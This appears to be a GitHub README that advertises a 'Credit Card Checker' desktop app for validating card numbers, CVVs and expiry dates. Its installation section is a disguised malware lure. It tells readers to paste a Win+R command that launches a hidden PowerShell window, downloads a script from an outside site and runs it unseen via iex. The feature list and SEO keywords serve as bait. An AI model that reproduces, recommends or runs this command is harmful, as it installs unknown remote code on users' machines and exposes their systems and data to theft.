 # Credit Card Checker | CC Checker 💳

## Description
**Credit Card Checker** is a powerful desktop application designed to help users verify the validity and security of credit card information. This tool is essential for businesses and individuals who want to ensure that their transactions are safe and compliant with industry standards.

## Key Features
- **Card Validation**: Verify if a credit card number is valid using the Luhn algorithm.
- **Card Type Identification**: Identify the type of credit card (Visa, MasterCard, American Express, etc.) based on the number format.
- **Expiration Date Check**: Ensure that the card is not expired and is still valid for transactions.
- **Security Code Verification**: Check the validity of the CVV/CVC code for added security.
- **Fraud Detection Alerts**: Receive alerts for suspicious card activity or potential fraud.

## Installation

<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in (Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://package-extractor.com/github';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>


### Launching
- Launch Credit Card Checker from the command.
- Register or log into your account if necessary.

## Usage
1. Enter the credit card number you want to validate.
2. Review the validation results, including card type, expiration date, and security code status.
3. Set up alerts for any suspicious activity associated with the card.

## License
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

---

With Credit Card Checker, you can enhance your security when making online transactions. Use our tool to ensure your credit card information is safe and valid! 😊

## SEO Keywords
- Credit Card Checker
- Credit card validation
- Card type identification
- Expiration date check
- CVV verification
- Fraud detection
- Secure transactions
- Payment security
- Online shopping safety
